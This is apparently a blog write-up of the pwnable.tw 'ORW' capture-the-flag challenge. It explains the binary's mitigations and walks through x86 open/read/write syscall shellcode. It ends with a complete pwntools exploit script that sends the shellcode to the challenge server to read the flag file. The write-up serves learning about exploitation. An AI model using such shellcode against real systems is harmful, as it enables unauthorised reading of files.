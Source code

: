 ```yaml
---
title: "ORW"
event: pwnable.tw
difficulty: easy
date: 2020-07-16
draft: false
tags: ["pwnable.tw"]
---
```


This is a pretty awesome challenge! Here we will be writing assembly code in x86 to read the flag file from the server. This is one of the easier challenge in pwnable.tw which is stack based.
<!--more-->

![](/images/pwnable2/pwnable1.png)

## Solution: 

First I check the mitigations :

![](/images/pwnable2/pwnable2.png)

* We have NX disabled. That means it is something to do with the shellcode.
* Seems like there is a canary which will not allow you to do a stack based buffer overflows.
* there is no pie so the address of the binary will be same every time you run.

Let's see the disassembly of this program
![](/images/pwnable2/pwnable.gif)

Here we can see that our input is being put in the address ``0x804a060`` and then it is moved to EAX and then after that EAX is called.
Meaning: our input is being executed. Now, let us run the binary and see what is happening :>

![](/images/pwnable2/pwnable3.png)

> Hmm… We get a segfault.

## Idea:

* As said in the question we will you three syscalls and then get the flag
* First call: open the flag file
* Second call: read the file
* Third call: write it to the output

## Exploit:

We will see the exploit in parts.

## Part 1

![](/images/pwnable2/pwnable4.png)

* We make EAX to 5
* we push the string "///home/orw/flag"
* We make EBX pointing to the stack ( the string )
* We make EDX equal to 0 and then we make the syscall.

## Part 2

![](/images/pwnable2/pwnable5.png)

* We make EAX equal to 3
* We make ECX point to the string
* Give EDX the buffer size
* Call the syscall

## Part 3

![](/images/pwnable2/pwnable6.png)

* We make EAX equal to 4
* Make EBX equal to 0
* Add 1 to EBX / making EBX equal to 1. Then call the syscall.

> Refer to the below image if having any doubts !!

![](/images/pwnable2/pwnable7.png)

If we put all of the things together, then we get the flag.

![](/images/pwnable2/pwnable8.png)

```py

from pwn import *
p = remote('chall.pwnable.tw',10001)
print p.recv()
s = asm("xor eax, eax")
s += asm("push eax")
s += asm("add eax, 5")
s += asm("push 0x67616c66")
s += asm("push 0x2f77726f")
s += asm("push 0x2f656d6f")
s += asm("push 0x682f2f2f")
s += asm("mov ebx, esp")
s += asm("mov edx, 0")
s += asm("int 0x80")
s += asm("mov eax, 3")
s += asm("mov ecx, ebx")
s += asm("mov ebx, 3")
s += asm("mov edx, 40")
s += asm("int 0x80")
s += asm("mov eax, 4")
s += asm("mov ebx, 0")
s += asm("inc ebx")
s += asm("int 0x80")
p.send(s)
f = p.recv()
print f
p.interactive()

```
> update: Back when I wrote this, it was python2, times were good.
 
If you want to try out more pwnable.tw but are stuck you can checkout [pwn-hub: pwnable.tw](https://github.com/tourpran/pwn-hub/tree/main/pwnable.tw) repo